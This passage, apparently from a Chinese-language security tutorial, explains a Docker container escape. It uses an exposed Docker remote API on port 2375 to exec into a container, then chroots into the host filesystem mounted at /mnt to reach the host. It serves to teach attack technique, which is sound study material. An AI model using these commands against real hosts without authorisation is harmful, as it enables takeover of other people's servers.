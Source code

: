 然后进入容器：

```bash
docker -H tcp://host:2375 exec -it CONTAINERID sh
```

默认执行命令只能看到容器内的：  
![image-20201210133100026](assets/1700701638-e983a9c3f66a60faedef61ea15a18593.png)  
进入到挂载进来的磁盘中，并切换根目录，则可以看到宿主机进程：

```bash
chroot /mnt sh
```

![image-20201210133155263](assets/1700701638-abd118e496a9edfecd6f5a20535656b7.png)  
因为挂载把宿主机根目录挂载到了容器中的/mnt 目录中，就再次回到了上述逃逸的攻击手段了，其他就不再赘述。
